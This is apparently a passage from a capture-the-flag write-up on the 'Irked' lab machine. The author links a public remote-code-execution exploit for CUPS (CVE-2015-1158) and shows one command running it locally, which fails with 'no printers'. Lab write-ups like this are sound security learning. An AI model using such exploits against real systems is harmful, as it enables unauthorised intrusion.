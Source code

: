 ![](3.png)


Googling this version reveals a [RCE exploit](https://www.exploit-db.com/exploits/41233).


Initially running this exploit it failed with "no printers". 

```sh
kali@kali-[~/boxes/htb/irked]$python 41233.py -a 127.0.0.1 -b 8000 -c test.so

             lol ty google
             0000000000000
          0000000000000000000   00
       00000000000000000000000000000
      0000000000000000000000000000000
    000000000             0000000000
   00000000               0000000000
  0000000                000000000000
 0000000               000000000000000
 000000              000000000  000000
0000000            000000000     000000
000000            000000000      000000
000000          000000000        000000
000000         00000000          000000
000000       000000000           000000
0000000    000000000            0000000
 000000   000000000             000000
 0000000000000000              0000000
  0000000000000               0000000
   00000000000              00000000
   00000000000            000000000
  0000000000000000000000000000000
   00000000000000000000000000000
     000  0000000000000000000
             0000000000000
              @0x00string
https://github.com/0x00string/oldays/blob/master/CVE-2015-1158.py

[*]	locate available printer
[-]	no printers
```
